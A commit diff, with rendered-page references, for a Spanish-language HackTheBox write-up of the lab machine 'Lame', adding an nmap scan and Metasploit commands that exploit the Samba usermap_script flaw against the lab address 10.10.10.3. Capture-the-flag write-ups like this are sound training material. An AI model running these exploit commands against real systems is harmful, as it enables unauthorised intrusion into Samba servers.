

Before and after one commit to BreakerxFixer/breakerxfixer.github.io, a Jekyll site: the page built from _writeups/htb-lame.md, in a window 1280 px wide. Shown: the top 656 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
añadiendo writeup lame

````diff
--- a/_writeups/htb-lame.md
+++ b/_writeups/htb-lame.md
@@ -6,30 +6,59 @@ dificultad: Easy
 plataforma: HackTheBox
 ---
 
-# 🔍 Enumeración
+# 🧠 HTB - Lame
+
+## 🔍 Enumeración
+
+Escaneo inicial:
 
 ```bash
 nmap -sC -sV 10.10.10.3
+```
 
-Servicios detectados:
+### 📡 Servicios detectados
 
-Samba vulnerable
-💥 Explotación
-
-Usamos exploit:
-
-msfconsole
-use exploit/multi/samba/usermap_script
-🧠 Privilege Escalation
-
-Acceso root directo debido a mala configuración.
-
-🏁 Conclusión
-
-Máquina fácil, ideal para principiantes.
+- FTP
+- SSH
+- Samba (⚠️ vulnerable)
 
 ---
 
-# 📄 4️⃣ `writeups.html` PRO (listado dinámico)
+## 💥 Explotación
+
+Se detecta vulnerabilidad en Samba (`usermap_script`)
 
 ```bash
+msfconsole
+use exploit/multi/samba/usermap_script
+set RHOSTS 10.10.10.3
+run
+```
+
+✔️ Acceso conseguido como usuario
+
+---
+
+## 🔐 Privilege Escalation
+
+No es necesaria escalada compleja.
+
+El sistema está mal configurado y permite acceso root directo.
+
+---
+
+## 🏁 Conclusión
+
+Máquina muy sencilla:
+
+- Ideal para principiantes
+- Introduce conceptos básicos de explotación
+- Buen primer contacto con HackTheBox
+
+---
+
+## 🏷️ Tags
+
+- #HTB
+- #Easy
+- #Samba
````
